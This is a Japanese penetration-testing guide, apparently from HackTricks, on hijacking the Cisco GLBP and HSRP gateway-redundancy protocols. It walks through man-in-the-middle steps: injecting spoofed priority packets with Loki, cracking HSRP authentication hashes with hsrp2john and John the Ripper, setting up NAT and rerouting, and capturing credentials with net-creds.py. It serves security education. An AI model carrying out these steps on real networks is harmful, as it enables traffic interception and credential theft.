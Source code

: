 # GLBP & HSRP 攻撃

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>を通じてゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks で企業を宣伝したい** または **HackTricks をPDFでダウンロードしたい** 場合は [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をチェックしてください！
* [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な [**NFTs**](https://opensea.io/collection/the-peass-family) のコレクションを見つける
* **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)** に参加するか、[telegramグループ](https://t.me/peass) に参加するか、**Twitter** 🐦 で **@hacktricks_live** をフォローする
* **HackTricks** と **HackTricks Cloud** のgithubリポジトリにPRを提出して、あなたのハッキングテクニックを共有する

</details>


## FHRP ハイジャッキング概要

### FHRP の洞察
FHRP は、複数のルーターを単一の仮想ユニットに統合することで、ネットワークの堅牢性を提供し、負荷分散と障害耐性を向上させるよう設計されています。Cisco Systems は、GLBP や HSRP などの主要なプロトコルをこのスイートで導入しました。

### GLBP プロトコルの洞察
Cisco の創造物である GLBP は、TCP/IPスタック上で機能し、通信にはポート3222でUDPを利用します。GLBP グループ内のルーターは、3秒ごとに "hello" パケットを交換します。ルーターがこれらのパケットを10秒間送信しない場合、オフラインと見なされます。ただし、これらのタイマーは固定されておらず、変更可能です。

### GLBP の動作と負荷分散
GLBP は、単一の仮想IPと複数の仮想MACアドレスを使用して、ルーター間で負荷分散を可能にすることで際立っています。GLBP グループでは、すべてのルーターがパケットの転送に関与します。HSRP/VRRP とは異なり、GLBP は次のメカニズムを通じて本物の負荷分散を提供します:

- **ホスト依存型負荷分散:** ホストに一貫したAVF MACアドレスを割り当て、安定したNAT構成に不可欠です。
- **ラウンドロビン負荷分散:** リクエストするホスト間でAVF MACアドレスの割り当てを交互に行うデフォルトのアプローチ。
- **重み付きラウンドロビン負荷分散:** 事前に定義された "重み" メトリクスに基づいて負荷を分散します。

### GLBP における主要なコンポーネントと用語
- **AVG（Active Virtual Gateway）:** MACアドレスをピアルーターに割り当てる責任を持つメインルーター。
- **AVF（Active Virtual Forwarder）:** ネットワークトラフィックを管理するために指定されたルーター。
- **GLBP 優先度:** AVG を決定するメトリクスで、デフォルトで100から255の範囲で開始します。
- **GLBP 重み:** ルーター上の現在の負荷を反映し、手動で調整するか、Object Tracking を介して調整できます。
- **GLBP 仮想IPアドレス:** 接続されたすべてのデバイスのデフォルトゲートウェイとして機能します。

GLBP では、予約されたマルチキャストアドレス224.0.0.102 と UDP ポート3222 を使用して相互作用します。ルーターは3秒ごとに "hello" パケットを送信し、パケットが10秒間欠落した場合は非稼働と見なされます。

### GLBP 攻撃メカニズム
攻撃者は、最も高い優先度値（255）を持つGLBPパケットを送信することで、主要ルーターになることができます。これにより、DoSやMITM攻撃が発生し、トラフィックの傍受やリダイレクトが可能になります。

### Loki を使用した GLBP 攻撃の実行
[Loki](https://github.com/raizo62/loki_on_kali) は、優先度と重みが255に設定されたパケットを注入することで GLBP 攻撃を実行できます。攻撃前の手順には、Wiresharkなどのツールを使用して、仮想IPアドレス、認証の有無、およびルーターの優先度値などの情報を収集することが含まれます。

攻撃手順:
1. プロミスキャスモードに切り替えてIPフォワーディングを有効にします。
2. ターゲットルーターを特定し、そのIPを取得します。
3. Gratuitous ARP を生成します。
4. AVG をなりすまして悪意のあるGLBPパケットを注入します。
5. 攻撃者のネットワークインターフェースにセカンダリIPアドレスを割り当て、GLBP 仮想IPを反映させます。
6. 完全なトラフィックの可視性のためにSNAT を実装します。
7. インターネットアクセスを元の AVG ルーターを介して継続するようにルーティングを調整します。

これらの手順に従うことで、攻撃者は自分自身を "man in the middle" として配置し、暗号化されていないまたは機密性の高いデータを含むネットワークトラフィックを傍受および分析することができます。

デモンストレーションのために、必要なコマンドスニペットを以下に示します:
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
### HSRPハイジャックのパッシブな説明とコマンドの詳細

#### HSRP（Hot Standby Router/Redundancy Protocol）の概要
HSRPは、ネットワークゲートウェイの冗長性のために設計されたCisco独自のプロトコルです。複数の物理ルータを1つの論理ユニットに構成し、共有IPアドレスを持たせることができます。この論理ユニットは、トラフィックを管理するための責任を持つプライマリルータによって管理されます。GLBPが優先度や重みなどのメトリクスを使用して負荷分散を行うのに対し、HSRPはトラフィック管理に単一のアクティブルータを使用します。

#### HSRPの役割と用語
- **HSRPアクティブルータ**: トラフィックフローを管理するゲートウェイとして機能するデバイス。
- **HSRPスタンバイルータ**: アクティブルータが故障した場合に引き継ぐ準備ができたバックアップルータ。
- **HSRPグループ**: 単一の強靭な仮想ルータを形成するために協力するルータのセット。
- **HSRP MACアドレス**: HSRPセットアップ内の論理ルータに割り当てられた仮想MACアドレス。
- **HSRP仮想IPアドレス**: 接続されたデバイスのデフォルトゲートウェイとして機能するHSRPグループの仮想IPアドレス。

#### HSRPのバージョン
HSRPには、HSRPv1とHSRPv2の2つのバージョンがあり、主にグループ容量、マルチキャストIPの使用、および仮想MACアドレス構造が異なります。プロトコルは、サービス情報の交換に特定のマルチキャストIPアドレスを使用し、Helloパケットは3秒ごとに送信されます。パケットが10秒間受信されない場合、ルータは非アクティブと見なされます。

#### HSRP攻撃メカニズム
HSRP攻撃は、最大優先度値を注入することでアクティブルータの役割を強制的に引き継ぐことを含みます。これにより、中間者攻撃（MITM）が発生する可能性があります。攻撃前の重要なステップには、HSRPセットアップに関するデータを収集することが含まれ、これはトラフィック分析のためにWiresharkを使用して行うことができます。

#### HSRP認証のバイパス手順
1. HSRPデータを含むネットワークトラフィックを.pcapファイルとして保存します。
```shell
tcpdump -w hsrp_traffic.pcap
```
2. hsrp2john.pyを使用して.pcapファイルからMD5ハッシュを抽出します。
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. John the Ripperを使用してMD5ハッシュを解読します。
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Lokiを使用したHSRPインジェクションの実行**

1. Lokiを起動してHSRP広告を特定します。
2. ネットワークインターフェースをプロミスキャスモードに設定し、IPフォワーディングを有効にします。
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. Lokiを使用して特定のルータをターゲットにし、解読されたHSRPパスワードを入力し、アクティブルータを偽装するために必要な設定を行います。
4. アクティブルータの役割を取得した後、ネットワークインターフェースとIPテーブルを設定して正当なトラフィックを傍受します。
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. 以前のアクティブルータを介してトラフィックをルーティングするためにルーティングテーブルを変更します。
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. 傍受したトラフィックから資格情報をキャプチャするためにnet-creds.pyや類似のユーティリティを使用します。
```shell
sudo python2 net-creds.py -i eth0
```

これらの手順を実行することで、攻撃者はGLBPハイジャックの手順と同様にトラフィックを傍受および操作する立場に置かれます。これは、HSRPなどの冗長性プロトコルの脆弱性と堅牢なセキュリティ対策の必要性を示しています。

